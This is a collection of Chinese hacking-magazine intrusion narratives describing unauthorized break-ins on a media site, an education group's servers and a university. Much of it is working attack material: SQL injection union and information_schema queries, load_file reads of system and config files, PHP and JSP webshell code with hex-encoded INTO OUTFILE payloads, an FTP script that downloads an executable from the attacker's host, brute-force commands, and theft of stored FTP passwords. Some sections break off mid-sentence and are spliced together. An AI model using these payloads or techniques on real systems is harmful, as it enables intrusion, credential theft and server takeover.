首先是网站存在低级的注射漏洞，从而致使我进行注射来拿到 web 权限，进而提权拿到服务器，所以一定要重视注射漏洞，加强安全防护。另外，此次检测使我也看到了自己的不足，同时通过此次入侵检测也学到了东西，那就是不要死板，一定要灵活运用，将你所学到的知识全部结合运用出来！另外此站已经帮助管理员做了防注射漏洞！此次没有任何破坏！

> 编辑点评：入侵的时候，发散思维真的很重要，这篇文章就可以很好地说明这个问题。

## 曲折入侵某地方传媒网

本文写的是常规的 PHP 注射技巧。

某日在一论坛转载，看到一条新闻，恰好感兴趣，点击 URL 进入了一个地方传媒网的站，很巧 URL 刚好符合我的胃口，轻轻地加了一个单引号，出现了如图1的界面。


根据直觉，感觉该站一般来说都存在注射，马上提交 `http://www.xxtv.net/article.php?id=58 and 1=1` 和 `http://www.xxtv.com/article.php?id=58 and 1=2`，返回了不同的界面，确定存在注射。

```text
http://www.xxtv.com/article.php?id=58 order by 10
http://www.xxtv.com/article.php?id=58 order by 20
http://www.xxtv.com/article.php?id=58 order by 15
http://www.xxtv.com/article.php?id=58 order by 16
http://www.xxtv.com/article.php?id=58 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15/*
http://www.xxtv.com/article.php?id=58 and 1=2 union select 1,2,3,4,5,version(),7,user(),9,10,11,12,13,14,15/*
```

先猜字段长度。提交 `http://www.xxtv.com/article.php?id=58 order by 10` 返回正常，提交 `http://www.xxtv.com/article.php?id=58 order by 20` 返回错误，然后提交到 `http://www.xxtv.com/article.php?id=58 order by 15` 返回正常，提交 `http://www.xxtv.com/article.php?id=58 order by 16` 返回错误，确定字段长度是 15。不管了，先 union 一把再说。提交 `http://www.xxtv.com/article.php?id=58 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15/*`，出现如图2的界面。

先看下用户和数据库版本吧，提交 `http://www.xxtv.com/article.php?id=58 and 1=2 union select 1,2,3,4,5,version(),7,user(),9,10,11,12,13,14,15/*`，返回如图3。5.x 的 mysql 加上 root 权限，哈哈，很得意啊！


到 mysql 是 5.x 的站，所以决定暂时放弃 load_file 的想法，先用 mysql 5.x 的新特性来爆下表和列。

```text
http://www.xxtv.com/article.php?id=58/**/and/**/1=2/**/union/**/select/**/1,2,3,4,5,table_name,7,8,9,10,11,12,13,14,15/**/from/**/information_schema.tables/**/where/**/TABLE_SCHEMA=0x6C616A697476/**/limit/**/1,1
```

返回如图4。

这样就可以猜出对应数据库下的表，TABLE_SCHEMA 是数据库名称的 Hex 码，我们只需要变化 limit 后面的数字就可以猜出其它表。最终确定主站的系统管理员表名为 admin_user。

继续构造语句进行提交。

```text
http://www.xxtv.com/article.php?id=58/**/and/**/1=2/**/union/**/select/**/1,2,3,4,5,COLUMN_NAME,7,8,9,10,11,12,13,14,15/**/from/**/information_schema.COLUMNS/**/where/**/TABLE_NAME=0x61646D696E5F75736572/**/limit/**/1,1
```

当然，这语句当中需要更改的地方大家也都知道了，我就不在这里浪费大家的时间了。可以确定管理员中的用户名字段为 name，密码字段为 password，自动标识列为 id。这样就简单了，直接提交：

```text
http://www.xxtv.com/article.php?id=58/**/and/**/1=2/**/union/**/select/**/1,2,3,4,5,name,7,password,9,10,11,12,13,14,15/**/from/**/admin_user/**/where/**/id=1
```

成功爆出管理员的账号和密码，如图5所示。密码是 MD5 加密的，去 cmd5 跑出来了。兴冲冲地冲向后台，不料后台简陋得出乎我的意料，除了有一个 fckeditor 2.3.1 版，还有一个上传，我几乎找不到可以利用的地方。试了下 fckeditor 的常规利用方法，都以失败告终，上传也不行。

看来没办法，只有返回，从 load_file 开始。首先构造语句：

```text
http://www.xxtv.com/article.php?id=58%20and%201=2%20union%20select%201,2,3,4,5,6,7,load_file(0x2F6574632F706173737764),9,10,11,12,13,14,15
```

进行提交，load_file 中字符是 /etc/passwd 的 HEX 编码，提交后返回如图6。确定是 Linux 的，反之就是 Windows，当然 Windows 可以试着 load_file 下 `c:\boot.ini`，即可确定是不是 Windows。先不管了，看链接的时候就看到主站下面还有个 discuz! 6.x 的论坛，试了最奏效的 wap exp，不过没有成功。随便在主站找了一个链接，加单引号，运气不错，路径出来了，如图7。


图6


图7


图8

人的管理员账号和密码不正确！

这难道是传说中的后门？只要在密码处填写 `xxx.org`，那么不管你的账号和密码是否正常，都可以登录后台，只是你提交的用户名决定着你的权限而已。接着通过 `load_file` 读主站的登录文件得知网站根目录下有 `config.php`，那么我们直接提交 `http://www.xxtv.com/article.php?id=58%20and%201=2%20union%20select%201,2,3,4,5,6,7,load_file(0x2F776562646174612F6C616A6974762F636F6E6669672E706870),9,10,11,12,13,14,15`，返回如图8。


图9

原来这里把 `discuz!` 啥的数据库连接全部包揽完了，够 BT 的。连接一下，居然禁止外连！没办法，看来只能找 phpmyadmin 了。很巧的是，居然在网站地址后面加上 `phpmyadmin` 目录就弹出了 phpmyadmin 那可爱的登录界面，如图9。

既然路径出来了，那先把 mysql 读出来玩玩。提交 `http://www.xxtv.com/article.php?id=58%20and%201=2%20union%20select%201,2,3,4,5,6,7,load_file(0x2F776562646174612F6C616A6974762F6262732F636F6E6669672E696E632E706870),9,10,11,12,13,14,15`，不幸的是，无论我怎么读，`config.inc.php` 文件存在，不过始终只能把文件上半部分的注释读出来，唯独数据库的配置读不出来，欲哭无泪啊。

既然主站也是 PHP 写的，那么肯定也会有数据库连接文件，直接 `load_file` 主站的后台登录文件，发现一个很有趣的东西，请看下面的代码：

```php
if (strcmp($row['password'], md5($password)) == 0 || $password == "xxx.org") {
    $_SESSION['login_user'] = $username;
} else {
    redirect("javascript:history.back(-1);");
}
```

登录进去，进入我们对应站点的数据库，首先转到执行 SQL 模块，执行下面的 SQL：

```sql
create table shell(code TEXT); /* 建立表 shell，字段 code 文本型 */
insert into shell(code) values('<?php eval($_POST[cmd]);?>'); /* 将 php 一句话插入到 shell 表的 code 字段中 */
select * into outfile '/webdata/xxx/shell.php' from shell; /* 将 shell 表中 code 字段的值导出到语句的路径中 */
```

下面我们直接拿出 php 一句话客户端连接即可，密码为 `cmd`。接着上传大马，这些步骤大家都会，我就不浪费版面了。文章没什么技术含量，都是一些很常见的技术，最主要的是在入侵中灵活应用，这样我们才能真正地掌握并且运用这些技术。

> 编辑点评：应当不可能读不出 `config.inc.php` 全部内容的，作者试过 mysql5 中的 `left`、`right`、`substr`、`instr` 这些函数没有？

## 渗透某某电邮教育集团

图晓华 & 夜枫【岁月联盟】

注意作者的入侵步骤和细节

## 开篇交待

废话不多说，我们的主要目标是拿下某某教育集团旗下各省分校网站系统及主站系统服务器。首先收集某某各省的网站地址，方便以后依次检测。随机挑出几个网站地址，通过网络命令 PING 得出服务器 IP 地址，结果发现他们网站服务器是处于同一网段的。

既然它们是同一网段，这就给渗透创造了很好的条件。根据平时渗透的经验，他们的服务器很可能是总部的专门人员来集中维护，而不是某某各省分校的网络管理员管理，分校管理员估计只是平时上去发布点新闻而已。这一点，我是看着他们服务器的位置分配而得出的，不完全正确，但可供参考。

我们的渗透思路是想办法拿下它的一台服务器，然后收集足够的信息继续对其它主机进行渗透，或者发动 ARP 攻击截取管理员的敏感信息，毕竟它们位于同段网环境。在渗透正式实施之前，最好根据实际情况制定出几种可行性高的渗透方案，然后根据制作的方案，稳扎稳打，步步为营，以至于在坚固防御系统威慑下不乱方阵。

渗透正式发起之前，启动平时稳定的国外 VPN，小心驶得万年船嘛！首先对本省的分校网站进行安全检测，我使用 GOOGLE 搜索引擎进行基本信息收集，发现是纯 JSP 构架的 WEB 系统，没有使用其它脚本程序。这样的站一般没有明显的注射上传漏洞，## JSP 网站还是比较难攻下的

#### 最初检测

现在我们来检测下是否存在常规的脚本漏洞。首先测试源代码泄漏问题，在网站地址后面依次提交：`.jsp`、`.Jsp`、`.jsP`、`.JSP`、`jsp%2e`、`jsp%20`、`jsp%80`、`jsp%81`、`jsp%89?`、`jsp%3f`，看看是否暴出源代码。如果暴出源代码，尝试一些敏感的文件，利用得到的源代码分析脚本中的漏洞。如果觉得手工提交很麻烦，不妨试试 LCX 前辈杰作——暴 JSP 网页代码工具。使用很简单，直接填上要检测的地址，如图 1。


这里不存在这么低级的漏洞，现在我们来测试注射漏洞。关于注射点的查找和判断，相信大家都是专家水平了，对于 ACCESS、MSSQL2000、MSSQL2005、MYSQL、ORACLE 这最常见的五种数据库的注射，注射方法大同小异，如有不熟悉的朋友可以参考《黑客手册》以前的文章，在这里我使用工具扫描+手工判断均未找到注射点。

现在我们来判断下 WEB 服务器的类型，提交一个不存在的文件，返回了错误信息，并显示了服务器的版本为：`Apache Tomcat/6.0.18`。既然是 TOMCAT 服务器，我们来测试一下 TOMCAT 管理后台是否存在弱口令。

提交 TOMCAT 后台管理登录地址，提示无法找到；尝试猜解几个上传文件也失败了；使用 GOOGLE 搜索上传界面也是无果。这套系统是它们自己编写的，这给我们渗透带来了很多困难，也不知道该程序的文件结构。现在我们使用 Acunetix Web Vulnerability Scanner 6 渗透试试。只对网站进行深度扫描，使用方法：启动该扫描器后，选择“WEB SCANNER”，在“URL START”中输入要检测的网站地址，最后点击“START”即可启动扫描，如图 2。


根据扫描的结果，发现后台目录下挂载了一个 EWEBEDITOR 编辑器，版本应该是 JSP 版。有部分 JSP 版的 EWEBEDITOR 是存在直接上传 JSP 脚本文件漏洞的，测试后发现这个无法上传 JSP 文件，扩展名加点和空格均失败，如图 3。


既然上传不行，我们返回上一级目录，来到管理员登录页面。如果这里参数过滤不严，可以通过构造注入语句，直接登录后台。在用户名和密码处都输入：`1'OR '1'='1`，登录失败，看来程序验证得很严格。


社工猜解管理员密码也不行，仔细查看扫描结果，发现已经探测出一些敏感后台文件。测试了几个文件，大多都做了登录验证，直接返回了登录页面。最后发现 `manage/changepass.jsp` 文件没有做验证，直接可以访问，这个文件是管理密码修改页面，我们来利用它修改管理员密码试试，如图 4。

提示成功修改，但是我们在后台还是无法登录，因为我们不知道管理员的用户名。猜解了几个可能使用的用户，还是惨败而归。直接进不去，我们还是选择旁注吧。在 114best.com 查询到该服务器捆绑了三个网站，分别是四川和江西分校，还有个是汽车专修学院。经过检测，发现江西新华使用的是 DEDECMS 整站系统，测试了从它诞生至今所爆的所有漏洞，无任何收获，而且默认管理后台也被更改了。汽车学院也没找到有利用价值的漏洞，看来管理员安全做的不错，至少不存在很明显的漏洞。

#### 瞄准分站

现在我们采用迂回渗透思路，暂时放下这个目标，继续渗透同段的其它网站，这一次我挑了一个捆绑了很多站的服务器下手，如图 5。

网站服务器开的越多，找出漏洞的机会就越大。经过我的测试，发现这个服务器里面的网站基本都是 ASP 架构的，整站系统是采用动易新系统。测试以前所爆全部漏洞无果，无奈管理后台也是被管理员无情地改掉了。本想在后台试试社工的，管理员不给我们机会。现在我们的主要任务是查找一些比较老的整站程序，通过查找那些被管理员遗忘的废旧目录来渗透，以它作为一个突破口。因为管理员把重心都放在主站，从而忽略了升级后留下的废旧程序。怎样查找那些废旧目录呢？利用后台路径猜解器（注意多收集网站后台敏感文件，充实扫描数据库以扫描更多有用信息），或者通过谷歌和百度搜索引擎来深度搜索。用搜索引擎查找此类漏洞的关键是要仔细查看网站文件路径，注意筛选有用信息。


## 西线无战事


解工具即可轻松破解出明文密码。

具体操作：打开站点管理器，在“快速连接”中选中要解密站点名称，右键选择“复制到剪贴板”（这里会提示是否复制用户和密码，我们选“是”），然后新建一个记事本，粘贴复制的信息。


经过我的仔细查找，找到一个以前频爆致命漏洞的整站程序——尘缘雅域图文系统，如图 6。

测试了一下，该程序的主页和几个受爆注射漏洞的文件被删了，默认数据库路径也被修改，后台注册用户文件 adaduser.asp 和 createasp.asp、last_newsxp.asp 都被删除了，看来插一句话木马那条路走不通了。

后台做了防注入，`'or'='or'` 也登录失败，访问上传漏洞那几个文件大都提示无法找到。最后测试到 `uploadfaceok.asp`，发现该文件存在，真是否极泰来。立刻网上打开明小子工具，选择上传功能，填入完整路径，提示：上传成功！成功得到一个 DIY 小马，如图 7。

利用小马写入一个免杀的大马，在提权开始之前先收集服务器信息：

- 服务器版本：WINDOWS 2003 IIS6.0
- 服务器支持 ASP 和 ASPX 脚本解析
- C、D、E 盘均可访问，未做权限配置
- SEO 和 WS 组件可用
- FTP 服务器：SERV-U6.3，本地加了管理密码
- 数据库服务：MSSQL 2005，未找到 SA 的连接密码
- FTP 管理软件：FLASHXP
- 终端服务端口：9833

由于 SERV-U 有本地管理密码，我们无法上传提权工具进行提权。SERV-U 安装在 D 盘，但是无法修改 SU 的用户配置文件，上传 ASPX 脚本木马同样无法修改。在数据库连接文件中只找到几个低权限的 MSSQL2005 数据库用户，但是无法使用里面的存储过程来提权。

现在我们把 D 盘中的 FLASHXP 下载回来看，一般为了方便对网站进行管理，用户通常把管理密码也保存至 FLASHXP 中。下载回来打开，发现确实保存了一些 FTP 管理密码，如图 8。现在我们把这些带星号的密码全部破解出来，大家可以使用星号密码查看器和 AIO 进行破解，或者自己搭建一个网络环境使用 CAIN 进行嗅探 FTP 明文密码。前几种方法固然可行，但是我觉得很繁琐，这里给大家介绍一个技巧，这种方法不使用任何破解工具。

该信息主要由三部分组成，格式为：**用户名：密码@网络地址**。根据这个格式，即可轻松分离出用户名和密码以及 IP 地址，如图 9。


通过这样的反复操作，我破解了所有的加密密码。现在我们可以通过 FTP 控制大多数的网站。马上找到本省的分校，通过 FTP 直接上传一个 JSP 木马。通过简单的信息收集，发现该服务器也是 WINDOWS 2003。由于 TOMCAT 安装在 WINDOWS 环境中，默认是以系统权限启动的，而我们的 JSP 脚本也继承了它的权限，这样就可以执行任意系统命令。

执行 **NETSTAT -AN** 查看本地端口开放情况，如图 10。两台服务器终端端口相同，那么以前的猜想是正确的，服务器是由专门的人员进行维护的。现在添加一个系统用户，成功登录远程终端，如图 11。


马上用 JSP 木马上传 GETHASHES.EXE，提取系统密码哈希值失败，接着换了几款抓 HASH 值的工具，也不行。最后被迫上传了一个系统密码截获工具 NTPASS，在 CMD 下成功安装，注销服务器重新登录，发现能够截获到我输入的账户和密码。这台服务器上只有四川和江西分校的网站，我们的最终目标是拿下安徽主站和该教育集团官网。


#### 拿下主站

现在我们来先拿下安徽主站，通过 PING 命令得到安徽主站的 IP 是 124.42.X.29。看看下载回来的 FLASHXP，里面并没有保存这台服务器的 FTP 密码。安徽分校作为该教育集团的招牌学校，安全防御一定很高。现在我们要充分利用得到的一些信息，发挥好社会工程学，把之前全部破解出的 FTP 用户和密码排列在一起进行比较，希望找出管理密码的命名规律。

结果发现，大多数密码都是一样的，于是我依次测试这些用户和密码，最后成功登录进了安徽分校的 FTP（其中也包括其它各省分校权限），如图 12。


图 12

有了 FTP 权限，我们也不用再上传脚本木马了，免得传个马打草惊蛇。现在我们最后的目标是拿下集团官网。

#### 最终目标

集团官网的网络地址：124.42.X.30，继续社工尝试刚才的那些密码，最后无功而返。重新查看 WEBSHELL 和服务器中的文件，在 D 盘发现了集团网站源代码的备份文件夹。马上打开，查找数据库的连接文件，得到数据库的用户名和密码。

在 3389 服务器里打开 CMD 命令提示符，执行：`TELNET 124.42.X.30 1433`，发现 1433 端口是可以连接的。运气还行，马上打开查询分析器，填入 IP 地址以及数据库用户名和密码，成功连接上集团官网数据库，如图 13。


图 13

执行 `select @@version`，显示数据库的版本为 MSSQL 2005，现在来看看是否可以调用存储过程。执行命令：`exec master.dbo.xp_cmdshell 'net user'`，返回错误，如图 14。

看来这个数据库用户的权限很低，不是管理员权限。现在我们有两个渗透思路：

- 1. 利用差异备份这个一句话木马到网站目录下；
- 2. 查询管理密码进后台夺取 WEBSHELL。

但是在备份的时候出了一点问题，总是备份超时，一时也找不到解决的好办法，现在只有乖乖地去查询管理密码了。通过查看数据库，发现存放管理密码的表是 admin，现在我们来查询出 admin 表中的所有敏感数据，SQL 语句为：`select * from admin;`，如图 15。


图 14


图 15


图 16

得到密码后直奔官网后台，后台很简单，就一个新闻发布功能。新增一个新闻，在图片上传那里选择一个 ASP 木马进行上传，失败了！继续尝试 ASPX、CER、ASA、HTR 等，均无法上传。


仔细查看后台程序，发现后台使用了 CuteEditor 编辑器。此编辑器广泛使用于 ASPX 网站中。另外，这个程序可以新建文件夹！思路来了，我们利用 IIS6.0 的路径解析漏洞来拿 WebShell，这里我创建了一个名为 xx.asp 的文件夹，如图 16。

现在我们把 ASP 木马扩展名改名为 swf，成功上传！打开 SWF 的地址，成功得到一个小马，最后写入一个 ASPX 的大马，如图 17。

至此，集团主站已经拿下。第二天后，我截取到管理员录入的密码，由于管理员有一码通用的坏习惯，利用截获到的密码成功登录其它两台服务器。此次渗透要告一段落了，其实没有用到什么新的技术，只是一些常规技巧的集合，其中渗透最重要的一点就是学会充分利用收集到的信息。对本文有任何疑问或者建议的朋友，请在《黑客手册》官方论坛或者岁月联盟找我交换意见，谢谢。

> **编辑点评：** 从本文你可以看到，对一些有漏洞的程序的熟悉程度和字典的收集是多么的重要，这都在于平常的入侵经验积累和总结。

## 透过 Jonas 拿下某高校的 WebShell

Mickey

从本文你可以学习到如何用 wfuzz.exe 来暴力破解表单。

朋友丢过来个站点，让我帮着看看，其实我也很菜的，既然是朋友所托，也没有办法。我打开网页看了看，是 JSP 的，通过访问大小写文件名来判断，确定是 Windows 机器。浏览了几个带参数的页面，也没有暴出错误来，不知道用的是什么 WEB APP。再访问一个不存在的文件，结果如图 1 所示。

jadmin 的账户密码。不过，修改 tomcat 这个账户的很少。

经过测试，默认账户没有登录进去，没关系，碰碰运气来破一下吧。先准备好破解的条件，我使用 firefox 的 “Live Http headers” 插件抓了下包，如图 2 所示。


看到 “Powered by Jetty:/” 这样一串字符串了，Jetty 经常作为 Web 容器集成到像 Jonas、Jboss、Ifox 的 JAVA EE 应用服务器里。既然这样，思路有了，找指定的 JAVA EE 应用服务器的后台，然后通过默认密码或者爆破进去，最后通过部署 WAR 包直接拿到 WEBSHELL。

用我自己定制的字典还真扫出后台来了，是 `/JonasAdmin/`，原来是 Jonas 哇！以前就搞过，心里有谱了，现在的拦路虎就是怎么绕过登录。先输入默认密码试试，比较常见的组合是 jonas/jonas、jadmin/jonas、tomcat/tomcat。就我的经验来看，一般管理员都会修改 `/conf/jonas-realm.xml` 配置文件中的 jonas 和 jadmin 这两个账户密码。不过，修改 tomcat 这个账户的很少。

从图 2 中可以看出来，提交的方法为 POST，提交到的认证页面为 `j_security_check`，用户域为 `j_username`，密码域为 `j_password`。如果密码不正确，HTTP 码返回 200，密码正确返回什么呢？我现在也不知道。

不用急，去网络上找一个密码正确的登录进去，不就知道返回码是什么了吗？打开 GOOGLE 搜索关键字：“JOnAS Administration”、“Go to the JOnAS administration web application”，找到了几个 URL，用默认密码登录进去，得到 HTTP 的返回结果原来是 302，如图 3 所示。

## 西线无战事


图 3

所以我常常使用 Wfuzz 这款工具来破解 WEB 表单。使用方法如下：

```bash
wfuzz.exe -c -z file -f wordlists/common.dic -d "j_username=jonas&j_password=FUZZ" --hc 200 http://192.168.0.101:9000/jonasAdmin/j_security_check
```

其各个参数的意思是：

- `-c`：表示带颜色输出结果
- `-z`：指定 payload 类型，我这里选择的是 file，也可以自己指定一个范围，工具使用很灵活。
- `-f`：指定字典
- `-d`：使用 POST 方法提交数据，后面跟着 POST 提交的参数
- `--hc`：隐藏响应结果，因为 HTTP 返回码为 200 是错误，所以我隐藏了。为了使输出结果更清晰

Wfuzz 确实是一款 Pentest 工具包里的必备工具，至于其它的用法，大家可以看文档帮助。另外，由于是 PYTHON 脚本写的，所以可以移植到 LINUX 平台，其运行界面如图 4 所示。

Linux 平台下破解软件用得较多的，我想非 Hydra 莫属了。THC 放出来的最新版为 5.4，可惜它的 HTTP-POST-FORM 模块那里，代码写得有点缺陷，网络上已经公布出补丁了，地址为 `http://packetstorm.linuxsecurity.com/groups/thc/hydra-http-form.patch`，大家在使用 Hydra 的时候，最好打上 Hydra 相应的补丁再来破解，否则误报现象很严重。


图 4


图 6


图 5

Hydra 的命令如下：

```bash
Hydra -l jonas -P password.txt -s 9000 -o result.txt -vV -x x:x:x http-post-form "/jonasAdmin/j_security_check:j_username=^USER^&j_password=^PASS^&submit=Login:Invalid"
```

等了一会儿，已经破解出来了，密码为 ultimate！登录上去，开始部署 WAR 包，步骤很简单：

首先点击 “Deployment” 下的 “Web Modules(WAR)”，再选右侧界面的 “Upload” 标签，把本地的 WAR


图 7

## 一次详细的 JSP 跨站入侵

从本文你可以学习到 JSP+MySQL 导出 WebShell 的方法。

### 一、信息收集

近日由于工作原因，接触到了一个网上信息公开平台（据说这个平台是上面统一派发给各个城市的），恰巧今天有时间，所以想看下这套系统的安全性。来到主页随便找个链接，习惯性地加“'”（不含双引号，下同），出错了，如图1所示。


从错误上我们可以看出，服务器是 Tomcat 5.0.30 的，进一步用 “and 1=1” 测试，返回正常，如图2；再用 “and 1=2” 测试，返回出错了，如图3。

大家都知道，无论是否致命，两个页面返回的内容不一样，就说明服务器不是绝对安全的，是存在注入漏洞的！而对于 JSP 脚本来说，无论是在什么样的服务器下，它的权限也是非常高的。

继续测试服务器数据库信息，在刚才的注入语句后面加上 “/*” 构造出提交语句 “Id=117 and 1=1/*”，页面返回正常，如图4。

说明服务器数据库是支持 “/*” 注释的 MySQL 4 以上版本，其可以支持 UNION 联合查询，对我们的入侵很有帮助。接下来依次猜解字段数，构造注入语句如下：“Id=117 order by 10”，返回错误，如图5，说明字段小于 10。再构造：“Id=117 order by 5”，如图6，返回正常，说明字段大于或者等于 5。


按照加上步骤，继续修改 “by” 后的数字，测试到 7 时返回正常，如图7，而 “by 8” 时出错，如图8。

现在我们已经知道字段数是 7，这样就可以用 MySQL 的联合查询进一步入侵了。继续构造注入语句 “Id=-1 union select 1,2,3,4,5,6,7/*”（这里前面的 “-1” 是随便写的一个不存在的 ID 值，当然也可以换成 “Id=117 and 1=2”，目的是让 SQL 语句出错，那样才能得到对我们有用的信息），居然还是返回错误（一般情况下在字段正确的时候，执行如上注入语句就会在页面相应的字段位置上显示出所代表字段的数字），如图9。

难道是这个点不能用？当然不是，应该是服务器屏蔽了出错信息吧。既然爆不出数字，那我们就只好借助于工具了。直接将注入点复制到“穿山甲”中检测，发现这个点是 MySQL 的 ROOT，并且服务器是 Windows 2003 的，如图10。继续用“穿山甲”读取服务器的其它敏感信息，但是全都无功而返。

### 二、整理思路


看来工具也不是很管用了，现在是需要整理下思路的时候，在这种情况下我们如果要继续入侵，有以下几种参考方法：

- 1. 设法得到 Web 路径，因为我们有 MySQL 的 ROOT 权限的 JSP 注入点。JSP 与 PHP 不一样，它没有 `magic_quotes_gpc=on` 时过滤“'”的限制，所以能直接导出一只 Shell 到服务器，这是快捷拿到目标站点权限的方法。
- 2. 设法找到站点后台，然后破解数据库，登录后台，再进一步入侵。这种方法最费力而且成功率很低，如果管理员有意隐藏管理后台，找到的机会几乎为 0。
- 3. 寻找 Tomcat 后台，弱口令登录，上传 WAR 文件获得 Shell（Tomcat 的这个 BUG 早出现了，想了解的朋友“百度”下）。这个方法成功的几率和方法 2 一样，不是很大，很多管理员知道 Tomcat 的后台很危险，而且也不是很有必要存在，所以直接删了，或者改名了。
- 4. 凭经验或者扫描工具得到 Web 的上传页面，尝试上传木马。这种方法成功的几率居中，因为很多 JSP 站点是不限制文件上传类型的。

接下来就是根据上面的方法一步一步来继续我们的入侵之路。要继续自然少不了一个简单且实用的扫描工具——wwwscan，这是一款命令行下的扫描工具，是专门针对 Web 入侵设计的，具体使用方法我不多说，想了解的朋友可以“百度”下。

在命令行下执行：

`wwwscan www.test.cn -p 81 -m 10 -t 16`

注视着命令行里数据的滚动，大概一支烟的工夫得到了扫描结果，兴致勃勃地打开扫描结果文件看了看，如图11。


Images、uploadFile 都是些无关紧要的信息，WEB_INF 根本无法浏览，更别说 Web 后台和 Tomcat 后台了，而且也没有一个页面能爆出网站的 Web 路径。以前也读到过 JSP 注入的文章，要得到网站路径无非就是两种方法：

- 1. 利用网站的出错信息，爆出 Web 路径；
- 2. 通过服务器的默认安装配置和个人的经验猜测出网站路径。

大体在网站上逛了逛，发现网站除了注入的时候会出错，访问正常是不会出错的，所以注入的时候没有爆出 Web 路径，靠其它出错信息得到 Web 路径是不可能的。至于默认配置，尝试在网上找来几个 Tomcat 的默认安装路径执行导出命令也没有成功，看来一切都不是很顺利啊。

漫无目的地在目标站上乱逛，思绪也在不停地翻滚。我最初的目标是直接从目标站拿到 Shell，但是现在看来这个目标不是那么好完成的。后来又想拿后台权限，可是后台地址被改了名字（先前是这么想的，但是到最后才发现后台不存在），即使“穿山甲”能破出后台的密码也无济于事。

如果我们可以浏览到 Web 的目录，便可能找到后台地址，也就对我们的入侵会有帮助了。对了，这套系统不是上面统一配发给各个地方的吗？在这个站我入侵不了，难道其它和这套系统一样的网站也是这样坚不可摧吗？只要有一个网站我们可以拿到权限，哪怕是一只只有 READ 权限的 Shell，我们也可以轻松地找到后台地址，登录目标站的后台，完成下一步入侵。

带着这个思路，我找到了目标站上几个有代表性的 JSP 文件名，去“百度”搜索下，得到了不少有用信息，确实有很多站都用这套系统作为信息发布的平台，而且几乎都是 Windows 的服务器。即使不能直接拿到 Shell，但是旁注的几率也大得很啊！下面我们整理下思路：

- 1. 我们有这套系统的注入点，而且是 ROOT 权限（因为站点的配置应该都是一样的），凭这点我们只要知道 Web 路径，就可以轻松得到 Web 的浏览权限。
- 2. 假设得到了任何一个网站的权限，我们可以设法找到后台地址或者上传页面，然后回过头再测试我们的目标站。

### 三、跳板

既然思路清晰了，那下面就继续入侵我们的目标 2 吧。依然用 wwwscan 扫描目标 2：`wwwscan www.test2.cn -p 80 -m 10 -t 16`，如图12。

在扫描结果中发现了这几个目录 com1、com2、com3、com4 是目标 1 没有的，直接进入 com4 后终于出现了梦寐以求的画面，如图13。

居然爆出了站点的绝对路径，还等什么？找来一个用于执行系统命令的 jspshell，代码如下：

```java
<%@ page import="java.io.*" %>
<%
try {
    String cmd = request.getParameter("cmd");
    Process child = Runtime.getRuntime().exec(cmd);
    InputStream in = child.getInputStream();
    int c;
    while ((c = in.read()) != -1) {
        out.print((char)c);
    }
    in.close();
    try {
        child.waitFor();
    } catch (InterruptedException e) {
        e.printStackTrace();
    }
} catch (IOException e) {
    System.err.println(e);
}
%>
```

去掉文件中的回车后，代码如下：

```jsp
<%@page import="java.io.*"%><%try{String cmd = request.getParameter("cmd"); Process child = Runtime.getRuntime().exec(cmd); InputStream in = child.getInputStream(); int c; while ((c = in.read()) != -1) { out.print((char)c);} in.close(); try { child.waitFor(); } catch (InterruptedException e) { e.printStackTrace(); }} catch (IOException e) { System.err.println(e);} %>
```

转为 16 进制值构造的语句如下：

```text
id=-1 union select 1,2,3,4,5,0x3C2540207061676520696D706F72743D226A6176612E696F2E2A22253E3C257472797B537472696E6720636D64203D20726571756573742E676574506172616D657465722822636D6422293B50726F63657373206368696C64203D2052756E74696D652E67657452756E74696D6528292E6578656328636D64293B496E70757453747265616D20696E203D206368696C642E676574496E70757453747265616D28293B20696E7420633B207768696C6520282863203D20696E2E7265616428292920213D202D3129207B206F75742E7072696E742828636861722963293B207D20696E2E636C6F736528293B20747279207B206368696C642E77616974466F7228293B207D2063617463682028496E746572727570746564457863657074696F6E206529207B20652E7072696E74537461636B547261636528293B207D207D2063617463682028494F457863657074696F6E206529207B2053797374656D2E6572722E7072696E746C6E2865293B7D253E,into outfile 'd:/web/z.jsp' /*
```

其中 6 的位置就是我们写的 16 进制值。执行后页面还是显示 500 错误，在 Web 上直接访问 z.jsp 也提示不存在，难道是没有导出成功吗？这可麻烦了。稍作调整，将上面 Web 路径中的 “\” 换成 “/” 再执行语句，如图14。

这次访问 /z.jsp，终于看到了成功的希望，如图15。看来这套系统是对 “\” 作了某种过滤。既然有了 cmdshell，那还不赶紧看看权限如何。在 z.jsp 后加参数运行如下：`z.jsp?cmd=whoami`，如图16。


正常执行后发现权限并不是想象中的 SYSTEM，而是稍次之的 Administrator 权限，但是这个权限一般情况下已经可以对服务器完全控制了。看到离自己的目标越来越近，真是有点热血沸腾啊～；但是接下来发生的事情让我觉得高兴得太早了。


虽然得到了 Administrator 权限的 cmdshell，但是服务器是内网的，即使开了终端，外网也是连不上。再尝试用 ECHO 命令写个可以上传文件的马上传上去，但是却发现不能够 ECHO；然后又想用 TFTP 命令下载远控马，去执行后直接拿服务器的操作，但是在关掉 Win 自带的防火墙后依然无法下载，看来 TFTP 是被禁止或者删除了。

看现在的情况，虽然有了 cmdshell，但是我们还需要继续深入。回头想想，既然 cmdshell 没有用，我直接用注入点导出一只可以上传文件的马总可以吧？将下列代码（其中没有回车哦）转为 16 进制后替换图14注入点中 6 的位置，执行导出语句，如图17，成功访问到了导出的文件，如图18。

```jsp
<%if(request.getParameter("f")!=null){(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());}%>
```

不假思索地直接上传大马，如图19，访问大马文件却是 404 报错，如图20。

难道是被杀了？那就写个 FTP 批处理文件上传上去，保存为 **ftp.txt**，内容如图21，代码如下：

```ftp
open myweb.net
jxsaqjh
1234
get l.exe
bye
exit
```

服务器总不至于变态到杀 .txt 文件或者禁用 ftp.exe 吧？兴冲冲地去访问 ftp.txt，怎么还是不存在？难道是传说中的人品问题？不可能。整理下思绪，在 IE 中执行如下语句：

```text
-1/**/union select 1,2,3,4,5,'0x3c25696628726571756573742e676574506172616d657465722822662229213d6e756c6c29286e6577206a6176612e696f2e46696c654f757470757453747265616d286170706c69636174696f6e2e6765745265616c5061746828255c22292b726571756573742e676574506172616d657465722822662222929292e777269746528726571756573742e676574506172616d6574657228227422292e67657442797465732829293b253e',7 into outfile 'd:\\web\\z.txt' /*
```

